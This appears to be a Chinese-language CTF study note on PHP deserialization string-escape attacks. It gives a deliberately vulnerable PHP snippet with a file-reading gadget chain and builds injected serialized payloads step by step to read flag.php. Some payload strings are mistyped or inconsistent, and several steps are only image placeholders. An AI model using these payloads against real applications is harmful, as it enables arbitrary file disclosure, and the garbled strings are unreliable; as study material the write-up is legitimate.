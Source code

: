 ## 字符增加
我们观察我们下面的方法
```php
<?php
function write($data){
    return str_replace(chr(0).'*'.chr(0),'\0\0\0',$data);
}
function read($data){
    return str_replace('\0\0\0',chr(0).'*'.chr(0),$data);
}
class A{
    public $username;
    public $password;
    function __construct($a,$b){
        $this->$username=$a;
        $this->$password=$b;
    }
}
class B{
    public $b='world';
    function __destruct(){
        $c='hello'.$this->b;
        echo $c;
    }
}
class C{
    public $c;
    function __toString(){
        echo file_get_contents($this->c);
    }
}
$a=new A("$_GET['a']",$_GET['b']);
$b=unserialize(read(write(serialize($a))));
```


### 原理
省流：我们由于不等长替换，使得我们的原有的格式变得错误。

本题中，我们需要注意到，我们假如 `__GET` 的 `a,b` 随便输入字符串 `A` 和 `B`,并且不包括我们的 `\0` 那么我们的 ` read ` 和 ` write ` 就等于没有，我们反序列化得到的还是我们 ` A ` 的对象。

但是，我们注意到，我们的序列化后得到的长度和原来的是不相同的，也就是说，如果我们进行了替换后，我们的长度是不相同的
```
s:6 \0\0\0\0\0\0; s:8:"password"
```

这个时候，我们替换后可能就有
```
s:6 \0\0\0 s:8:"password" 
```

也就是说我们把原来不属于字符串的部分当成了我们的字符串，同理，我们也会把一些元素给寄出去。

### 步骤：
第一步：（存在漏洞的诸如对象）构造出我们原始的没有任何添加的序列化结果
https://www.jyshare.com/compile/1/
```
O:1:"A":2:{s:8:"username";s:2:"UN";s:8:"password";s:2:"PW";}
```

第二步：（核心注入对象）我们把我们需要添加到我们后缀的部分进行一个序列化：
```
O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}
```

第三步：把核心注入对象添加到存在漏洞的注入对象：
```
O:1:"A":2:{s:8:"username";s:2:"UN";s:8:"password";s:2:"

O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}";}
```

第四步：根据我们的序列化存在的格式问题进行补救：
1. 我们确定我们要吃的范围：
```
s:2:"UN | （开吃）";s:8:"password"
```

2. 补充我们的新添加的类的属性, 我们的这一个属性的名字应该保持和我们的原来的相同：
```
s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}";}
```

3. 补充我们的分号来进行结尾，
```
;s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}";}
```

4. 删去多余的双引号和分号，这里我们通过我们的添加冗余变量来实现：
```
;s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}[s:0:"";s:0"]  ";}
```

中括号部分是我们的添加内容

这个时候，我们就已经完成了我们的 `password` 部分的 payload 构造。然后，我们应该考虑去构造我们的 `username` 部分的 payload

```
;s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}s:0:"";s:0"
```

最后检查我们的构造完成后的结果：
```
O:1:"A":2:{s:8:"username";s:2:"UN";s:8:"password";s:82:";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}s:0:"";s:0"";}
```


5. 计算我们的 username 数值距离我们的 s 的距离是多少。
```
{s:8:"username";s:2:"UN";s:8:"password";s:82:";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}s:0:"";s:0"";}
```

这里，我们首先计算我们需要吃掉哪些字符，首先，我们一定要吃掉的就是我们的新的 `s:8:"password"` 之前的所有字符，也就是
```
";s:8:"password";s:82:
```

我们发现，我们每进行一次替换，我们可以减少我们的三个字符，于是我们就可以计算我们的最终长度是多少：
```
22
```

如果不能够整除 3，我们就去添加一个脏位，让我们变成我们的一个上取整，注意，我们的**补位的位置需要在我们的 password 最前面**
```
s:UNUU+8*(/0/0/0)
```

最后我们的 payload 应该形如：
```
username=8*(/0/0/0)
password=x";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}s:0:"";s:0"
```

## 字符减少：
我们的字符减少，也就是说，我们经过字符串处理后，我们的后面的长度相较于原来的长度是变大了的，也就是说，我们可能在第一个变量的时候，就可以让我们的后续字符产生逃逸：

### 步骤：
1. 得到我们需要序列化的受害类的序列化结果
```
O:1:"A":2:{s:8:"username";s:2:"UN";s:8:"password";s:2:"PW";}
```

2. 得到我们需要添加的序列化的结果：
```
O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}
```

3. 把两者进行强制拼接：
```
O:1:"A":2:{s:8:"username";s:2:"";s:8:"password";s:2:"PW";}
```

4. 补充我们属性的名字：
![[Pasted image 20240417113850.png]]

5. 补充我们的结尾闭合：
![[Pasted image 20240417114011.png]]

6. 补充我们的分号：
![[Pasted image 20240417114146.png]]

7. 计算我们的溢出长度是多少：
```
len(;s:6:"psword";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}s:0:””;s:0:”)=77
```

单次操作假设能够让我们排出去 3 位字符，那么我们的最后的结果就是：
```
77/3=15...2
```
不满足条件，我们考虑补充一位，**补充的位置应该在我们的 username 命名中，我们类的名字，最后的结果就是：**

```
O:1:"A":2:{s:8:"username";s:2:"\0\0\0\0\0\0\0\0;s:2:”aa”;O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}s:0:””;s:0:”";s:8:"password";s:2:"PW";}
```

